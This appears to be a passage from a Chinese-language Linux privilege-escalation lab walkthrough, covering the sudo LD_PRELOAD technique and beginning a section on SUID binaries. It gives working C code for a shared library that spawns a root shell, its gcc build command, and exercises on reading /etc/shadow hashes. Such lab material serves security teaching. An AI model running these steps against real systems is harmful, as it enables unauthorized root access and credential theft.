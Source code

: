 在某些系统上，您可能会看到 LD_PRELOAD 环境选项。

![](https://i.imgur.com/MmjqURa.png)

LD_PRELOAD 是一个允许任何程序使用共享库的函数。这篇[文章](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)将让您了解 LD_PRELOAD 的功能。如果启用 “env_keep” 选项，那么我们可以生成一个共享库，它将在程序运行之前加载和执行。请注意，如果真实用户 ID 与有效用户 ID 不同，LD_PRELOAD 选项将被忽略。

这个特权升级向量的步骤可以总结如下:
1. 检查 LD_PRELOAD（使用 env_keep 选项）
2. 编写并编译共享对象文件（.so 扩展名）的简单 C 代码
3. 使用 sudo 权限和指向我们的 .so 文件的 LD_PRELOAD 选项运行程序

以下 C 代码将简单地生成一个 root shell：
```cpp
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

我们可以将此代码保存为 shell.c，并使用以下参数使用 gcc 将其编译为共享对象文件；

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
![](https://i.imgur.com/lRjTXOd.png)

当我们运行具有 sudo 权限的任意程序时，我们就可以使用以上的共享对象文件。在我们的例子中，可以使用 Apache2、find 或任何我们可以使用 sudo 运行的程序。

**回答以下问题：**
- 用户 “karen” 可在目标系统上执行多少个具有sudo 权限的程序？
- 如果您的用户对 nmap 具有 sudo 权限，您将如何使用 Nmap 生成 root shell？
- frank 密码的哈希值是多少？（用sudo -l 看到的 nano 去读 /etc/shadow）


## 六. 提权：SUID

许多 Linux 的权限控制依赖于控制用户和文件的交互，这是通过权限完成的。我们知道文件可以具有读取、写入和执行权限。Linux 根据用户的权限级别分配文件权限。然而 SUID（Set-user Identification）和 SGID（Set-group Identification）不同，这两项标识允许用户分别以文件所有者和文件组所有者的权限级别来执行文件。

您会注意到这些文件设置了一个 “s” 位来显示它们的特殊权限级别。

`find / -type f -perm -04000 -ls 2>/dev/null` 将列出设置了 SUID 或 SGID 位的文件。

![](https://i.imgur.com/zcWSSN0.png)

一个好的做法是将此列表中的设置了 suid 或 sgid 标识的可执行文件与 GTFOBins (https://gtfobins.github.io) 进行比较。

上面的列表显示 nano 设置了 SUID 位。不幸的是，GTFObins 并不能帮我们马上提权。在实际的提权场景中，我们需要找到中间步骤来帮助我们利用我们所拥有的任何微小发现。
